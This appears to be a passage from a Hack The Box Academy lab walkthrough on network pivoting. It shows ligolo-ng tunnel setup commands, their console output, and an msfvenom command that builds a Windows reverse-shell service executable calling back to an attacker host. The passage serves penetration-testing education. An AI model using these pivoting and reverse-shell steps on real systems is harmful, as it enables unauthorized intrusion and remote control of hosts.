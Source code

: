 Subsequently, students need to return to their workstations, open a new tab, and proceed to add a new network interface based on their usernames in the workstation (e.g. `htb-ac-XXXX`) and the subnet of the internal network. Additionally, students will query the `my_credentials.txt` file located on the Desktop to get t

Code: shell

```shell
cat Desktop/my_credentials.txt | grep Username
sudo ip tuntap add user <htb-ac-XXXX> mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.20.0.0/24 dev ligolo
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ cat Desktop/my_credentials.txt | grep Username
Username: htb-ac-8414

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip tuntap add user htb-ac-8414 mode tun ligolo

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip link set ligolo up

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip route add 172.20.0.0/24 dev ligolo
```

Students will return to `ligolo`'s proxy console, use the `session` command, select the agent, and initiate the tunnel (they need to press `Enter` after session):

Code: shell

```shell
session
start
```

```
INFO[6389] Agent joined.                                 name="INLANEFREIGHT\\helen@SRV01" remote="10.129.229.244:49730"
ligolo-ng » session 
? Specify a session : 2 - #2 - INLANEFREIGHT\helen@SRV01 - 10.129.229.244:49730

[Agent : INLANEFREIGHT\helen@SRV01] » start
INFO[6744] Starting tunnel to INLANEFREIGHT\helen@SRV0
```

Students will proceed to generate a Windows reverse shell using `msfvenom` and the `windows/x64_shell_reverse_tcp` payload:

Code: shell

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=PWNIP LPORT=PWNPO -f exe-service -o service-shell.exe
```
